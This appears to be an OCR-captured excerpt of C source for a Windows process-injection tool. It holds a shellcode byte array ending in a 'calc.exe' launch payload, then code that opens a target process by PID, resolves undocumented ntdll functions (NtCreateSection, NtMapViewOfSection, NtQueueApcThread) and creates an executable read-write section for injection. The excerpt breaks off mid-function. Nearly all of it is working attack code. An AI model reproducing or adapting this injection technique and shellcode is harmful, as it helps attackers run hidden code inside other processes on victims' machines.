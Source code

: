 ```
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";


int main(int argc, char* argv[])
{

	DWORD pid;
	if (argc < 3) {
		printf("[*] Command: %s PID ThreadId.\n", argv[0]);

		pid = GetCurrentProcessId();
		printf("[*] Error, no PID provided. Exiting.\n");
		return -1;
	}

	pid = atoi(argv[1]);
	printf("[*] Using PID %d provided.\n", pid);

	int payload_len = sizeof(payload);
	
	printf("[*] Attempting to get handle on process.\n");
	HANDLE  processHandle = OpenProcess(CREATE_THREAD_ACCESS, 1, pid);
	if (processHandle == 0) {
		printf("[*] Error opening process handle. Error: %d.\n", GetLastError());
		return -1;
	}
	printf("[*] Got process handle.\n");


	printf("[*] Attempting to create new section.\n");
	HMODULE hModule = LoadLibraryA("ntdll.dll");
	NtCreateSection NtCreateSection_func = (NtCreateSection)GetProcAddress(hModule, "NtCreateSection");
	NtMapViewOfSection NtMapViewOfSection_func = (NtMapViewOfSection)GetProcAddress(hModule, "NtMapViewOfSection");
	NtAlertResumeThread NtAlertResumeThread_func = (NtAlertResumeThread)GetProcAddress(hModule, "NtAlertResumeThread");
	NtQueueApcThread NtQueueApcThread_func = (NtQueueApcThread)GetProcAddress(hModule, "NtQueueApcThread");
	//check its not returned NULL

	HANDLE hSection = NULL;
	LARGE_INTEGER sectionSize = { 4096 };

	NTSTATUS createSection = NtCreateSection_func(
		&hSection,				//SectionHandle
		(SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE),		//DesiredAccess
		NULL,					//ObjectAttributes
		(PLARGE_INTEGER)&sectionSize,						//MaximumSize
		PAGE_EXECUTE_READWRITE,	//SectionPageProtection
		SEC_COMMIT,				//AllocationAttributes
		NULL					//FileHandle
	);
	//printf("[*] CreateSection status is %x.\n", a);
	if (!NT_SUCCESS(createSection))
	{
		printf("[*] Error: NtCreateSection_func failed with status %#x", createSection);
```